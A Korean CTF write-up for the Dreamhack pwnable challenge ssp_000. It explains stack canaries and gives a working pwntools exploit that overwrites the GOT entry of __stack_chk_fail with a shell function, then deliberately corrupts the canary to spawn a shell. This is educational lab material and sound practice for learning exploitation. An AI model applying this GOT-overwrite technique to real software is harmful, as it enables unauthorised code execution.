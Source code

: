 ```yaml
---
published: true
image: /img
layout: post
title: "[Dreamhack] PWN ssp000"
excerpt: "드림핵 포너블 ssp_000 문제풀이"
tags: [Dreamhack, pwnable, ctf, writeup]
math: true
date: 2022-12-21 15:30
---
```


이번 ssp_000문제는 카나리에 대한 문제다. 메모리 스텍의 오염을 인식하고 오염되었을 경우 바이너리를 강제 종료시키는 기능을 한다. 스텍 사이에 랜덤의 값을 넣고 이를 검사해 스텍이 오버플로우 되었는지 확인한다. 이렇게 메모리 커럽션을 어렵게 하는 기법을 Stack Smashing Protector(SSP)라고 한다.

우선 먼저 코드를 살펴보자.
```c
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>


void alarm_handler() {
    puts("TIME OUT");
    exit(-1);
}


void initialize() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);

    signal(SIGALRM, alarm_handler);
    alarm(30);
}

void get_shell() {
    system("/bin/sh");
}

int main(int argc, char *argv[]) {
    long addr;
    long value;
    char buf[0x40] = {};

    initialize();


    read(0, buf, 0x80);

    printf("Addr : ");
    scanf("%ld", &addr);
    printf("Value : ");
    scanf("%ld", &value);

    *(long *)addr = value;

    return 0;
}
```

함수로 쉘이 함수로 있고 main함수는 간단한 버퍼 오버플로우를 일으킬 수 있다. 다만 실행시킨 바이너리의 카나리 값을 릭할 방법이 마땅치 않는다. 이 경우는 조금 생각을 해볼 필요가 있다. 만약 스텍을 오염시키면 __stack_chk_fail 함수가 실행되면서 종료가 될것이다.

다만 main함수를 보면 원하는 위치에 값을 바꿔쓸수 있는것을 볼수 있다. 이를 이용해 스텍이 오버플로우 되었을때 동작할 함수를 __stack_chk_fail가 아닌 get_shell함수로 바꿔주면 쉘을 얻을 수 있을 것이다.

우선 main함수의 어셈블리를 확인해보자
```c
   0x00000000004008fb <+0>:     push   rbp
   0x00000000004008fc <+1>:     mov    rbp,rsp
   0x00000000004008ff <+4>:     sub    rsp,0x70
   0x0000000000400903 <+8>:     mov    DWORD PTR [rbp-0x64],edi
   0x0000000000400906 <+11>:    mov    QWORD PTR [rbp-0x70],rsi
   0x000000000040090a <+15>:    mov    rax,QWORD PTR fs:0x28
   0x0000000000400913 <+24>:    mov    QWORD PTR [rbp-0x8],rax
   0x0000000000400917 <+28>:    xor    eax,eax
   0x0000000000400919 <+30>:    lea    rdx,[rbp-0x50]
   0x000000000040091d <+34>:    mov    eax,0x0
   0x0000000000400922 <+39>:    mov    ecx,0x8
   0x0000000000400927 <+44>:    mov    rdi,rdx
   0x000000000040092a <+47>:    rep stos QWORD PTR es:[rdi],rax
   0x000000000040092d <+50>:    mov    eax,0x0
   0x0000000000400932 <+55>:    call   0x40088e <initialize>
   0x0000000000400937 <+60>:    lea    rax,[rbp-0x50]
   0x000000000040093b <+64>:    mov    edx,0x80
   0x0000000000400940 <+69>:    mov    rsi,rax
   0x0000000000400943 <+72>:    mov    edi,0x0
   0x0000000000400948 <+77>:    call   0x400710 <read@plt>
   0x000000000040094d <+82>:    mov    edi,0x400a55
   0x0000000000400952 <+87>:    mov    eax,0x0
   0x0000000000400957 <+92>:    call   0x4006f0 <printf@plt>
   0x000000000040095c <+97>:    lea    rax,[rbp-0x60]
   0x0000000000400960 <+101>:   mov    rsi,rax
   0x0000000000400963 <+104>:   mov    edi,0x400a5d
   0x0000000000400968 <+109>:   mov    eax,0x0
   0x000000000040096d <+114>:   call   0x400750 <__isoc99_scanf@plt>
   0x0000000000400972 <+119>:   mov    edi,0x400a61
   0x0000000000400977 <+124>:   mov    eax,0x0
   0x000000000040097c <+129>:   call   0x4006f0 <printf@plt>
   0x0000000000400981 <+134>:   lea    rax,[rbp-0x58]
   0x0000000000400985 <+138>:   mov    rsi,rax
   0x0000000000400988 <+141>:   mov    edi,0x400a5d
   0x000000000040098d <+146>:   mov    eax,0x0
   0x0000000000400992 <+151>:   call   0x400750 <__isoc99_scanf@plt>
   0x0000000000400997 <+156>:   mov    rax,QWORD PTR [rbp-0x60]
   0x000000000040099b <+160>:   mov    rdx,rax
   0x000000000040099e <+163>:   mov    rax,QWORD PTR [rbp-0x58]
   0x00000000004009a2 <+167>:   mov    QWORD PTR [rdx],rax
   0x00000000004009a5 <+170>:   mov    eax,0x0
   0x00000000004009aa <+175>:   mov    rcx,QWORD PTR [rbp-0x8]
   0x00000000004009ae <+179>:   xor    rcx,QWORD PTR fs:0x28
   0x00000000004009b7 <+188>:   je     0x4009be <main+195>
   0x00000000004009b9 <+190>:   call   0x4006d0 <__stack_chk_fail@plt>
   0x00000000004009be <+195>:   leave  
   0x00000000004009bf <+196>:   ret
```

우리가 해당 바이너리를 익스하기 위해 필요한 것은 두가지다. get_shell 함수의 주소와 __stack_chk_fail 함수의 got 주소이다. 이것들 모두 쉽게 확인할 수 있다. __stack_chk_fail의 got는 해당 함수 plt의 주소를 disass 하면 확인할 수 있다.

```c
pwndbg> disass get_shell
Dump of assembler code for function get_shell:
   0x00000000004008ea <+0>:     push   rbp
   0x00000000004008eb <+1>:     mov    rbp,rsp
   0x00000000004008ee <+4>:     mov    edi,0x400a4d
   0x00000000004008f3 <+9>:     call   0x4006e0 <system@plt>
   0x00000000004008f8 <+14>:    nop
   0x00000000004008f9 <+15>:    pop    rbp
   0x00000000004008fa <+16>:    ret    
End of assembler dump.
```

```c
pwndbg> disass 0x4006d0
Dump of assembler code for function __stack_chk_fail@plt:
   0x00000000004006d0 <+0>:     jmp    QWORD PTR [rip+0x20094a]        # 0x601020 <__stack_chk_fail@got.plt>
   0x00000000004006d6 <+6>:     push   0x1
   0x00000000004006db <+11>:    jmp    0x4006b0
End of assembler dump.
```

get_shell 함수의 주소는 0x4008ea, __stack_chk_fail 함수의 got값은 0x601020로 확인할 수 있다. 이를 바탕으로 __stack_chk_fail함수 주소를 get_shell 함수로 바꾸기 위해 익스플로잇 코드를 작성해봤다. 해당 익스 코드는 다음과 같다.

```python
from pwn import *
context.update(arch='amd64', os='linux')

c = remote("host3.dreamhack.games", 22697);

stackChkFail = 0x601020
getShell = 0x4008ea

paylaod = "\x90"*0x50

c.send(paylaod)
c.sendlineafter(b"Addr : ", str(stackChkFail))
c.sendlineafter(b"Value : ", str(getShell))

c.interactive()
```

간단하게 카나리 부분을 덮어쓰기 하여 __stack_chk_fail를 인위적으로 일으키면 그전에 바꿔치기한 함수인 get_shell이 실행된다.